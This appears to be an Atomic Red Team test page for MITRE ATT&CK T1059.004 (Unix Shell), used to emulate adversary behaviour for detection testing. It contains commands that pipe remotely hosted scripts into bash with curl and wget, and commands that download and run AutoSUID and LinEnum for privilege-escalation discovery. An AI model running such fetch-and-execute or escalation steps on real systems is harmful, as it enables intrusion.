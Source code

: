 # T1059.004 - Unix Shell
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/004)
<blockquote>Adversaries may abuse Unix shell commands and scripts for execution. Unix shells are the primary command prompt on Linux and macOS systems, though many variations of the Unix shell exist (e.g. sh, bash, zsh, etc.) depending on the specific OS or distribution.(Citation: DieNet Bash)(Citation: Apple ZShell) Unix shells can control every aspect of a system, with certain commands requiring elevated privileges.

Unix shells also support scripts that enable sequential execution of commands as well as other typical programming operations such as conditionals and loops. Common uses of shell scripts include long or repetitive tasks, or the need to run the same set of commands on multiple systems.

Adversaries may abuse Unix shells to execute various commands or payloads. Interactive shells may be accessed through command and control channels or during lateral movement such as with [SSH](https://attack.mitre.org/techniques/T1021/004). Adversaries may also leverage shell scripts to deliver and execute multiple commands on victims or as part of payloads used for persistence.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create and Execute Bash Shell Script](#atomic-test-1---create-and-execute-bash-shell-script)

- [Atomic Test #2 - Command-Line Interface](#atomic-test-2---command-line-interface)

- [Atomic Test #3 - Harvest SUID executable files](#atomic-test-3---harvest-suid-executable-files)

- [Atomic Test #4 - LinEnum tool execution](#atomic-test-4---linenum-tool-execution)


<br/>

## Atomic Test #1 - Create and Execute Bash Shell Script
Creates and executes a simple bash script.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 7e7ac3ed-f795-4fa5-b711-09d6fbe9b873





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script_path | Script path | Path | /tmp/art.sh|


#### Attack Commands: Run with `sh`! 


```sh
sh -c "echo 'echo Hello from the Atomic Red Team' > #{script_path}"
sh -c "echo 'ping -c 4 8.8.8.8' >> #{script_path}"
chmod +x #{script_path}
sh #{script_path}
```

#### Cleanup Commands:
```sh
rm #{script_path}
```





<br/>
<br/>

## Atomic Test #2 - Command-Line Interface
Using Curl to download and pipe a payload to Bash. NOTE: Curl-ing to Bash is generally a bad idea if you don't control the server.

Upon successful execution, sh will download via curl and wget the specified payload (echo-art-fish.sh) and set a marker file in `/tmp/art-fish.txt`.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** d0c81167-803d-4dca-99b4-7ce65e7b257c






#### Attack Commands: Run with `sh`! 


```sh
curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/src/echo-art-fish.sh | bash
wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/src/echo-art-fish.sh | bash
```

#### Cleanup Commands:
```sh
rm /tmp/art-fish.txt
```





<br/>
<br/>

## Atomic Test #3 - Harvest SUID executable files
AutoSUID application is the Open-Source project, the main idea of which is to automate harvesting the SUID executable files and to find a way for further escalating the privileges.

**Supported Platforms:** Linux


**auto_generated_guid:** 46274fc6-08a7-4956-861b-24cbbaa0503c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| autosuid | Path to the autosuid shell script | Path | PathToAtomicsFolder/T1059.004/src/AutoSUID.sh|
| autosuid_url | Path to download autosuid shell script | Url | https://raw.githubusercontent.com/IvanGlinkin/AutoSUID/main/AutoSUID.sh|


#### Attack Commands: Run with `sh`! 


```sh
chmod +x #{autosuid}
bash #{autosuid}
```




#### Dependencies:  Run with `bash`!
##### Description: AutoSUID must exist on disk at specified location (#{autosuid})
##### Check Prereq Commands:
```bash
if [ -f #{autosuid} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
curl #{autosuid_url} --output #{autosuid}
```




<br/>
<br/>

## Atomic Test #4 - LinEnum tool execution
LinEnum is a bash script that performs discovery commands for accounts,processes, kernel version, applications, services, and uses the information from these commands to present operator with ways of escalating privileges or further exploitation of targeted host.

**Supported Platforms:** Linux


**auto_generated_guid:** a2b35a63-9df1-4806-9a4d-5fe0500845f2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| linenum | Path to the LinEnum shell script | Path | PathToAtomicsFolder/T1059.004/src/LinEnum.sh|
| linenum_url | Path to download LinEnum shell script | Url | https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh|


#### Attack Commands: Run with `sh`! 


```sh
chmod +x #{linenum}
bash #{linenum}
```




#### Dependencies:  Run with `bash`!
##### Description: LinnEnum must exist on disk at specified location (#{linenum})
##### Check Prereq Commands:
```bash
if [ -f #{linenum} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
curl #{linenum_url} --output #{linenum}
```




<br/>
